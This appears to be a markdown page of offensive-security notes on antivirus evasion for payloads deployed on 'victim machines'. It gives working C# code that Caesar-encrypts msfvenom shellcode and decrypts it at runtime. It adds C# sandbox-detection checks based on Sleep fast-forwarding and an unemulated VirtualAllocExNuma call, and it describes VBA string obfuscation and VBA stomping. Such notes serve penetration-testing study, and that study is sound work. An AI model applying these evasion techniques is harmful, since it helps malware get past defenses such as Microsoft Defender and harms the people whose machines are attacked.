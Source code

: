 ## Antivirus Evasion

### Caeser Cipher Encrypted Payloads

When creating DLLs to deploy our exploits on victim machines we have been making heavy use of `msfvenom` payloads. Flexible, super convenient, and the resulting shells are blissfully stable and usable... but there is a problem. Antivirus vendors are well aware of this tool, and have written good signature detections to pick up its usage.

One way around this is to bundle our `msfvenom` payloads encoded or encrypted. This is functionality that is built into the tool and has been for some time. However, this creates a new problem. As a defence evasion strategy this is a well established one, and the signature based AV vendors now flag on the encoder/encrypter that makes our shellcode available again at runtime!

A surprisingly effective strategy at this point is to massively go back to basics, and write our own encryptor/decryptor. Since this is just an obfuscation strategy an arbitrarily simple cipher will do, in fact the simpler the better. Modern cipher schemes pursue a property called non-malleability, which means it should not be possible to make alterations to the plaintext that result in predictable changes in the ciphertext. This means that schemes like AES will push plaintexts through multiple rounds of encryption, mixing chunks as it goes. The end result is a ciphertext that is noisy, incoherent, and has very high entropy. This actually potentially makes it more suspicious to an AV, since a high entropy chunk of text is a dead giveaway of an encrypted payload and may well be flagged.

Instead we can leverage the oldest primitive in the book, the Caeser Cipher. By adding a constant value to each byte in our payload we achieve a low entropy custom encrypted payload. The payload contents giveaway signatures will be destroyed, and our decryptor will be too inoccuous to flag, simply subtracting a constant integer from each byte in our byte array.

Custom C\# encrypter (k=5) to print our encrypted shellcode bytes to STDOUT:
```csharp
namespace Encrypter
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] { 0xfc,0x48,0x83,0xe4,0xf0... }
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 5) & 0xFF);
            }
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach(byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
            Console.WriteLine("The payload is:\n" + hex.ToString());
        }
    }
}
```

Alteration to our existing C\# exploits needed to cope with our now encrypted shellcode:
```csharp
...
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2... }
for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 5) & 0xFF);
}
...
```

### Emulator Detection using Sleep

To perform heuristic analysis of a binary many AV vendors will partially execute it in a sandboxed way, emulating the behaviour of the Win32 API methods the program reaches out to. This is potentially extremely time consuming, so optimisations have been found. A notable one is to seek out usage of the Sleep Win32 API call and fast-forward it. Any AV that does this gives us an easy means of sandbox detections.

Short chunk of C\# to insert at the top of our payloads to avoid any heuristic AV making use of Sleep fast-forwarding:
```csharp
namespace Payload
{
    class Program
    {
        ...

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        static void Main(string[] args)
        {
            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            // If the interval here is <2 seconds we know the Sleep command was fast-forwarded.
            // Exit immediately, concealing heuristic behaviour from an AV.
            if(t2 < 1.5) return;
            // Otherwise proceed as normal
            ...
        }
    }
}
```

This does not work against most AVs, however each technique we employ only needs to defeat one or two, and the combination of every technique we leverage will hopefully leave us with something that defeats everything on the target machine. This technique notably defeats Microsoft Defender.


### Emulator Detection using obscure Win32 APIs

An alternative strategy is to exploit the fact that these API calls are being emulated, and the real thing isn't actually running. If a Win32 API call is particularly obscure there are good odds that it has not been emulated, and an invocation will just return null. Checking for a null return on an obscure Win32 API call that should not return null is therefore another viable emulator detction strategy.

```csharp
namespace Payload
{
    class Program
    {
        ...
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        
        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            // Under real execution conditions this will return a valid address having allocated some memory
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            // If the program is running in an emulator that has not implemented this function it will
            // not return a valid address, so we can exit early concealing the payload behaviour.
            if(mem == null) return;
            ...
        }
    }
}
```

### Emulator Detection using filename (VBA)

It's common for an emulator environment to rename a file for analysis. Another simple strategy for emulator detection is to check the name of the file is what it was at the time it was authored in the VBA.

### Evasion in VBA

While trying to execute Powershell from VBA we will set off a good few AVs. Fairly trivial techniques can be used to defeat these since most are signature based. Namely, reversing the strings that comprise the shellcode, converting them to decimal and caeser cipher encrypting them.

### VBA Stomping

To optimise opening times for OLE files Microsoft implemented something called the `PerformanceCache`. This comes bundled in the OLE file itself. It contains so-called `p-code`, which is VBA code that has been compiled to target a specific version of Office. Before executing the code in a VBA macro Office will look at this cache first. The cache will contain flags to indicate the version of Office the `p-code` targets, if the version of Office in the cache matches the version of Office used to open the file then the VBA code will be skipped entirely. As a result, if we just make sure to appropriately pre-fill the cache, we can remove the code component of our VBA macro entirely. This is excellent since this is what most AVs are looking at.

